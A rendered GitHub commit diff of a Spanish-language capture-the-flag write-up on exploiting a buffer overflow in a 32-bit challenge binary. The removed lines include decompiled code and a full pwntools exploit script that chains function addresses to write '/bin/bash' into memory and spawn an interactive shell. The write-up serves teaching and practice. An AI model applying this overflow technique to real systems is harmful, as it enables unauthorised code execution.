

Before and after one commit to YukaFake/YukaFake.github.io, a Markdown page: templates/c2_server_pwn.md, 3 parts joined by grey strips. Shown: that part at 83% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/templates/c2_server_pwn.md
+++ b/templates/c2_server_pwn.md
@@ -27,21 +27,8 @@ Al decompilarlo utilizando **Binary Ninja**, obtuvimos el siguiente resultado:
 
 Para comprender mejor lo que está sucediendo, analizaremos cada una de las funciones involucradas. Comencemos por examinar la función **`main()`**.
 
-```c
-08049295    int32_t main(int32_t argc, char** argv, char** envp)
+![image](https://github.com/user-attachments/assets/b02ac19e-6c9c-4cc1-a44e-501dbba6ca1b)
 
-0804929c        void* const __return_addr_1 = __return_addr
-080492a3        int32_t* var_10 = &argc
-080492b2        setup()
-080492b2
-080492f0        for (int32_t i = 0; strlen("echo Datos exfiltrados") u>= i; i += 1)
-080492de            updateCommand(i, (*"echo Datos exfiltrados")[i])
-080492de
-0804930b        puts(str: "Servicio de exfiltracion Ocelot …")
-08049313        vuln()
-08049318        execCommand()
-0804932b        return 0
-```
 
 ### Desglose del flujo en **`main`**:
 
@@ -173,17 +152,7 @@ cmd = b"/bin/bash\x00"
 - **`cmd = b"/bin/bash\x00"`**: Este es el comando que queremos ejecutar una vez que obtengamos el control sobre el flujo de ejecución. En este caso, estamos tratando de ejecutar una shell interactiva de Bash.
 ### 5. **Bucle para Sobrescribir Dirección de Retorno y Enviar Comando**:
 
-```python
-for i in range(len(cmd)):
-    payload = b""
-    payload += junk
-    payload += p32(0x80491f3) #updateCommand
-    payload += p32(0x8049248) #vuln
-    payload += p32(i)         #iteradordelbucle
-    payload += p32(u8(cmd[i:i+1])) #caracterDelcmd
-
-    shell.sendlineafter(b"...\n", payload)
-```
+![image](https://github.com/user-attachments/assets/db177206-a8aa-4659-ae91-7ea384ab5992)
 
 - **Bucle sobre `cmd`**: Este bucle recorre cada carácter del comando **`/bin/bash`**.
 
@@ -207,36 +175,6 @@ Si juntamos todo esto obtenemos lo siguiente
 
 ![](../img/c2_server_pwn/9.png)
 
-```python
-#!/usr/bin/python3
-
-from pwn import *
-
-#shell = gdb.debug("./chal", "continue")
-shell = process("./chal")
-
-offset = 268
-junk = b"A" * offset
-
-cmd = b"/bin/bash\x00"
-
-for i in range(len(cmd)):
-    payload = b""
-    payload += junk
-    payload += p32(0x80491f3) #updateCommand
-    payload += p32(0x8049248) #vuln
-    payload += p32(i)         #iteradordelbucle
-    payload += p32(u8(cmd[i:i+1])) #caracterDelcmd
-
-    shell.sendlineafter(b"...\n", payload)
-
-payload = b""
-payload += junk
-payload += p32(0x804921d) #executeCommand
-shell.sendlineafter(b"...\n", payload)
-
-shell.interactive()
-```
 
 **Nota**: Utilizamos el payload una vez más, junto con la dirección de **`execCommand`**, porque, después de completar el barrido de caracteres uno por uno, necesitamos sobrescribir la memoria una vez más para redirigir la ejecución y llamar a la función **`execCommand`**. Esto nos permitirá finalmente ejecutar el comando **`/bin/bash`** y obtener la shell.
 
@@ -245,3 +183,5 @@ En resumen, nuestro exploit aprovecha el **desbordamiento de buffer** para sobre
 ![](../img/c2_server_pwn/10.png)
 
 Y seria todo por este desafío :)
+
+Gracias a xchg2pwn por siempre estar dispuesto a enseñar sobre estos temas, saludos crack!!!
````
Also changed, not shown: other parts of templates/c2_server_pwn.md (+9 -18 lines).
